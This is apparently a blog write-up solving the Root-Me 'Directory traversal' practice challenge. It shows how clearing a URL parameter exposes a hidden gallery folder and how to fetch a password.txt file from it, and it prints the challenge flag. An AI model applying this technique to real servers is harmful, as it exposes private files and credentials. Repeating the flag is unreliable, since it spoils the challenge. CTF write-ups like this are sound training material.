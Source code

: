 ```yaml
---
title: Directory traversal
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, rootme]
---
```


* Points: 25
* Link: [https://www.root-me.org/en/Challenges/Web-Server/Directory-traversal](https://www.root-me.org/en/Challenges/Web-Server/Directory-traversal)

## Statement

> Find the hidden section of the photo galery.

## Analyzation

Click on the navigate bar, the url is kind of
```
http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=categories
```

Delete the para
```
http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=
```

There is a hidden section ```86hwnX2r```. Navigate into it
```
http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=86hwnX2r
```

There is a ```password.txt``` file (see source code)
```
galerie/86hwnX2r/password.txt
```

## Solution

```
http://challenge01.root-me.org/web-serveur/ch15/galerie/86hwnX2r/password.txt
```

The flag is
```
kcb$!Bx@v4Gs9Ez
```